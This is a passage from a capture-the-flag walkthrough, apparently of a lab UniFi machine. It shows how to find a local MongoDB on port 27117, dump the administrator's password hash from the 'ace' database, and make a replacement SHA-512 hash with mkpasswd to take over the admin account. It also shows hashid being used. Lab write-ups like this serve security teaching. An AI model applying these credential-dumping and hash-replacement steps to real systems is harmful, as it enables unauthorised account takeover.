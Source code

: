 - ```x```: Shows processes that aren't attached to a terminal (e.g., background or daemon processes like MongoDB).

Here is the output from my Kali machine:

```
unifi         67  0.2  4.1 1100676 84744 ?       Sl   14:47   0:21 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       3577  0.0  0.0  11468  1140 pts/0    S+   16:55   0:00 grep mongo
unifi@unified:/usr/lib/unifi$ 
```

*We can see MongoDB is running on the target system on port 27117*

**MongoDB is a source-available cross-platform document-oriented database program. Classified as a NoSQL database program, MongoDB uses JSON-like documents with optional schemas.**

*Let's interact with the MongoDB service by making use of the ```mongo``` command line utility and attempting to extract the administrator password. A quick Google search using the keywords UniFi Default Database shows that the default database name for the UniFi application is ```ace```.*

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

The output is quite substantial, but the relevant piece of information from my Kali machine looks like this:

```
"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
```

*The output reveals a user called Administrator. Their password hash is located in the ```x_shadow``` variable but in this instance it cannot be cracked with any password cracking utilities. Instead we can change the ```x_shadow``` password hash with our very own created hash in order to replace the administrators password and authenticate to the administrative panel. To do this we can use the ```mkpasswd``` command line utility.*

```
mkpasswd -m sha-512 Password1234
$6$TCiFrNJeGNrYtKzm$X/rfG0R2BBCij8pXDaM1KcAxqQGrhiWhNWH2LFzhIzxe6ydJdYAQpRCjY7qiDiIELXpKq23blZSldlLjWN1Ft0
```

*The ```$6$``` is the identifier for the hashing algorithm that is being used, which is SHA-512 in this case, therefore we will have to make a hash of the same type.*

Note: there is a tool for this purpose called ```hashid```. For example:

```
echo '$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.' > hash.txt
hashid -m hash.txt
```
